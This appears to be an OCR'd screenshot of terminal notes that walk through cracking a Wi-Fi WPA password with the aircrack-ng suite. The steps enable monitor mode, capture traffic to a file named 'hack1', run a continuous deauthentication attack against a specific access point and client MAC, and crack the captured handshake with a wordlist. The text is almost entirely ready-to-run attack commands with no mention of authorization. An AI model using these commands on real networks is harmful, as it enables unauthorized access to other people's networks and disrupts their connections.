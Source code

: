 devender@2612:~$ `sudo airmon-ng start wlx00c0ca59ef6f 8`

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    957 avahi-daemon
    961 NetworkManager
    982 wpa_supplicant
    983 avahi-daemon

PHY	Interface	Driver		Chipset

phy2	wlx00c0ca59ef6f	rt2800usb	Ralink Technology, Corp. RT2870/RT3070

		(mac80211 monitor mode already enabled for [phy2]wlx00c0ca59ef6f on [phy2]wlx00c0ca59ef6f)
devender@2612:~$ `sudo airmon-ng check kill`

Killing these processes:

    PID Name
    982 wpa_supplicant
 297530 avahi-daemon

devender@2612:~$ `sudo airmon-ng start wlx00c0ca59ef6f 8`


PHY	Interface	Driver		Chipset

phy2	wlx00c0ca59ef6f	rt2800usb	Ralink Technology, Corp. RT2870/RT3070
Interface wlx00c0ca59ef6fmon is too long for linux so it will be renamed to the old style (wlan#) name.

		(mac80211 monitor mode vif enabled on [phy2]wlan0mon
		(mac80211 station mode vif disabled for [phy2]wlx00c0ca59ef6f)

devender@2612:~$ `iwconfig`

lo        no wireless extensions.

eno1      no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.447 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off

devender@2612:~$ `sudo airodump-ng wlan0mon`

or

devender@2612:~$ `sudo airodump-ng -w hack1 -c 8 --bssid C8:3A:35:36:A4:F8 wlan0mon`


devender@2612:~$ `sudo aireplay-ng --deauth 0 -a C8:3A:35:36:A4:F8 -c 4C:EF:C0:B4:2A:1C wlan0mon`


`sudo aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap`




`cd ~/Downloads`
`wget http://archive.ubuntu.com/ubuntu/pool/universe/h/hcxtools/hcxtools_6.0.2-1_amd64.deb`
`sudo apt-get install ./hcxtools_6.0.2-1_amd64.deb`
